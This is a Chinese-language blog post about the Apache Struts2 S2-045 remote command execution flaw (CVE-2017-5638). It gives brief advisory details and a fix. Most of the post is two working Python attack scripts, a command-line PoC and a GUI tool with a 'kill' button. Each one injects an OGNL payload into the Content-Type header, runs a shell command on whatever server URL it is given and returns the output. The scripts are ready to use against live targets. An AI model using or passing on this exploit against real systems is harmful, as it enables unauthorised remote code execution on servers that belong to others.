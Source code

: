 ```yaml
---
layout:     post
title:      J2EE struts2远程命令执行漏洞
subtitle:   J2EE struts2远程命令执行漏洞
date:       2017-08-09
author:     Ytala
header-img: img/post-bg-re-vs-ng2.jpg
catalog: true
tags:
    - Blog
---
```

> 正所谓前人栽树，后人乘凉。
> 
> 立志做pwn狗中web最好的
> 





# struts2远程命令执行漏洞S2-045

Apache Struts 2被曝存在远程命令执行漏洞，漏洞编号S2-045，CVE编号CVE-2017-5638，在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵，漏洞评级为：高危。

漏洞详情：恶意用户可在上传文件时通过修改HTTP请求头中的Content-Type值来触发该漏洞，进而执行系统命令。

风险等级：高风险。

漏洞风险：黑客通过利用漏洞可以实现远程命令执行。

影响版本：Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10。

安全版本：Struts 2.3.32或2.5.10.1。

poc，如下：

    #! /usr/bin/env python
    # encoding:utf-8
    import urllib2
    import sys
    from poster.encode import multipart_encode
    from poster.streaminghttp import register_openers
    
    
    
    def poc():
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(str(sys.argv[1]),datagen,headers=header)
    response = urllib2.urlopen(request)
    print response.read()
    
    poc()

exp，如下：
    
    #coding:utf-8
    import urllib2
    from Tkinter import *
    import sys
    from poster.encode import multipart_encode
    from poster.streaminghttp import register_openers
    
    
    
    class START():
    
    def __init__(self,root):
    self.root=root
    self.show_W_Text = Text()
    self.show_url_ed = Label(root, text="str2")
    self.edit_url = Entry(root, text="输入地址")
    self.butt_whois = Button(root, text="kill",command=self.poc)
    self.show_url_ed.pack()
    self.edit_url.pack()
    self.butt_whois.pack()
    self.show_W_Text.pack()
    
    def poc(self):
    w_url = self.edit_url.get()
    text = self.show_W_Text
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header[
    "User-Agent"] = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header[
    "Content-Type"] = "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(w_url, datagen, headers=header)
    response = urllib2.urlopen(request).read()
    text.insert(1.0, response)
    
    
    if __name__ == '__main__':
    
    root=Tk()
    root.title("....")
    motion=START(root)
    mainloop()

修复建议：如您正在使用Jakarta文件上传插件，请升级Struts至安全版本。